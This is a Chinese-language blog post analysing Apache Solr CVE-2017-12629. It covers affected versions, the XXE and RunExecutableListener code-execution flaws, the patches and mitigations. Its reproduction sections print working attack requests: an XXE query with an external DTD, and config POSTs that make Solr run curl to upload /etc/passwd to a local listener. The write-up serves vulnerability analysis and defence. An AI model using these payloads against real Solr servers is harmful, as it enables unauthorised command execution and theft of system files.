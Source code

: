 ```yaml
---
layout: post
title:  Apache Solr XML外部实体扩展和命令执行漏洞(CVE-2017-12629)漏洞分析
date: 2017-10-27
categories: 漏洞分析
tags:  java solr
---
```


* content
{:toc}


### 0x00 事件描述

Apache-Solr是一个企业级搜索服务器，对外提供类似于Web-service接口，基于Lucene开发。

Apache Lucene/Solr团队在2017年10月12日发布了0day攻击预警(CVE-2017-12629)该漏洞可导致信息泄露和远程命令执行。官方更新了7.1版本来修复此漏洞。而且某些RedHat产品使用了相关漏洞组件，可能受到此漏洞影响[参考1]。

经过分析验证，确认该漏洞确实存在，有关漏洞攻击脚本已经在网络中公开[参考2]，请相关用户尽快处理.









### 0x01 事件影响面
注:部分信息来自[参考1]和[参考3]

#### 影响面

该攻击事件可能影响到使用了Apache-Solr企业级搜索服务器和使用lucene相关组件的用户。

#### 影响版本

Apache-Solr 小于7.1版本都有可能受到rce攻击影响，xxe的影响版本在5.1-7.0.1 

|Platform |	Package | 	State |
|---------|:---------:|---------:|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene 	|Affected|
|Red Hat Software Collections for Red Hat Enterprise Linux |rh-java-common-lucene5 	|Affected|
|Red Hat JBoss EAP 7 	|lucene 	|Affected|
|Red Hat JBoss Data Grid 7| 	lucene |	Affected|
|Red Hat Enterprise Linux 6|	lucene |	Will not fix|



### 0x02 漏洞信息

该CVE存在两个漏洞，Lucene的XML解析器在5.5版本才被导入[参考4]，在文档内允许文档类型定义和外部实体，可以造成XXE攻击；Solr的配置中有一个API:add-listener，通过这个API可以创建一个RunExecutableListener实例，导致远程命令执行，这个API只在solr中出现，而不是Lucene。官方在更新的7.1版本中移除了造成命令执行漏洞的RunExecutableListener模块，对造成XXE漏洞的XML解析器进行了修复

#### XML外部实体扩展漏洞

solr的查询流程从SolrDispatchFilter的dofilter开始，在Solr里面，使用QParse来处理查询解析，在查询语句中可以构造type=xmlparse就会使solr调用QparserPlugin的子类xmlQParsePlugin来对查询语句进行处理，造成xxe漏洞
	
slor服务器启动cloud实例


	solr start -c

创建集合

	http://localhost:8983/solr/admin/collections?action=CREATE&name=test&numShards=2&maxShardsPerNode=2

执行命令查询传入xml查询子句，可以通过监听本机4444端口收到http请求

	http://localhost:8983/solr/test/select?q={!xmlparser v='<!DOCTYPE a SYSTEM "http://localhost:4444/test"><a></a>'}

调用栈如图所示,调用xmlparse解析器，查询子句引用外部实体
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/picture1.PNG)

最后在xmlQParsePlugin实例中调用第三方xml处理库javax.xml.parsers.DocumentBuilder和javax.xml.parsers.DocumentBuilderFactory解析xml，在没有对DTD，Entity做足够的安全处理下造成xxe漏洞

#### 命令执行漏洞

先通过向collection的config添加监听类RunExecutableListener，再通过向collection中添加数据来触发监听类执行命令，执行payload，造成任意命令执行

发起请求给集合添加或更新RunExecutableListener类

	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "update-listener" : {
	   "event":"postCommit",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}

如果add报错可以使用update

初始化一个RunExecutableListener实例
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/picture2.PNG)

提交数据即可触发命令执行

	POST /solr/test/update HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: text/xml 
	Content-Length: 516
	
	<add>
	  <doc>
	    <field name="authors">SuperX</field>
	  </doc>
	</add>



在未授权用户无法直接访问向Solr服务器Config的API时通过构造xxe和RCE组合payload[参考2]既可以实现远程代码执行，并做一个简单的代码执行验证，虽然返回报错，但是可以看到命令已经执行
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/picture3.png)

#### 漏洞修复

1. 修复xml解析器

Java对于xxe修复一般通过禁用外部实体解析来完成。
![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/xxe_7_0.PNG)

通过对比可以看到，添加了```dbf.setFeature(XMLConstants.FEATURE_SECURE_PROCESSING, true)```

查看官网描述当```XMLConstants.FEATURE_SECURE_PROCESSING```是true的话the implementation will limit XML processing to conform to implementation limits. Examples include enity expansion limits and XML Schema constructs that would consume large amounts of resources. If XML processing is limited for security reasons, it will be reported via a call to the registered ErrorHandler.fatalError(SAXParseException exception)，对xml处理的时候进行限制处理，例如限制 实体扩展和xml造成dos情况，如果处理过程中触发了限制会报告给SAXParseException.就是说对实体扩展和dos，xxe攻击做了限制

![](https://raw.githubusercontent.com/SuperXiaoxiong/SuperXiaoxiong.github.io/master/img/xxe_7_1.PNG)

2. 修复任意命令执行

直接删掉了RunExecutableListener类，避免了命令执行

### 0x03 修复方案

1. 升级到7.1最新版本
2. 使用参数-Ddisable.configEdit=true来运行Solr实例
3. 经过实践发现，对solr未授权访问进行控制，效果更实际

### 0x04 时间线

2017-10-12 事件披露

2017-10-21 完成漏洞分析

### 0x05 参考链接

1. http://mail-archives.us.apache.org/mod_mbox/www-announce/201710.mbox/%3C018601d343b3$53868c50$fa93a4f0$@apache.org%3E
2. https://www.exploit-db.com/exploits/43009/
3. https://access.redhat.com/security/cve/cve-2017-12629
4. http://lucene.apache.org/solr/5_5_0/solr-core/org/apache/solr/search/QParserPlugin.html

### 0x06 补充

看到创宇报告，遗漏newSearcher也可以直接触发命令执行

如果已经有listener监听器，可以使用新的name或者直接update-listener进行覆盖，本来是准备写成部门预警通告，结果不用发了，有点小遗憾，就上传到自己博客做成漏洞分析报告吧。


	POST /solr/test/config HTTP/1.1
	Host: localhost:8983
	Connection: close
	Content-Type: application/json  
	Content-Length: 226
	
	{
	  "add-listener" : {
	   "event":"newSearcher",
	   "name":"newlistener",
	   "class":"solr.RunExecutableListener",
	   "exe":"curl",
	   "dir":"/usr/bin/",
	   "args":["-F","value=@/etc/passwd","http://127.0.0.1:9090"]
	  }
	}






